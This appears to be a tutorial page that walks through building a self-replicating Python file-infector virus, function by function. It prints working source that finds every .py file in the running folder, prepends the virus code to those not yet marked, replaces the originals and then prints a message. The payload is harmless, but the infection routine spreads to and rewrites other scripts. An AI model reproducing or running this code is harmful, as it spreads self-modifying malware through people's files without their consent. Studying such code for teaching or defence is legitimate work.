 ## Creation of a virus
The virus presented below will have the functionality to self-replicate and display a message on the screen when the 
infection process is complete. Another feature is that the virus is written to the beginning of each infected file, 
causing that if a file containing the virus is executed, the malicious code is executed before the legitimate code.

Without further ado prepares to explain that make each of the parts of the virus:
- **infect** function: this function looks for possible files to infect in the folder where the virus is running. Once 
  you find a candidate, check to see if they are already infected. If it is not, a new file will be created containing 
  the virus and the candidate code.
```python
def infect(virus):
    path = "."
    for file in os.listdir(path):
        if file.endswith(".py"):
            script = open(file, "r")
            text_script = script.read()
            script.close()
            if not "# Virus:Start" in text_script:
                infected = open(file + ".infected", "w")
                infected.write(virus + "\n")
                infected.write(text_script)
                infected.close()
                os.remove(file)
                os.rename(file + ".infected", file)
```

- **payload** function: this function would contain the malicious code. In this case, only the message "You were 
  infected" is printed on the screen.
```python
def payload():
    print("You were infected")
```

- **run** function: this function calls the infect and payload functions.
```python
def run(virus):
    infect(virus)
    payload()
```

- **Global code**: This code reads the running file, extracts the virus code, and calls the run function.
```python
host = open(sys.argv[0], "r")
text_host = host.read()
host.close()
virus = text_host[text_host.find("# Virus:Start"):text_host.rfind("# Virus:End") + len("# Virus:End")]
run(virus)
```
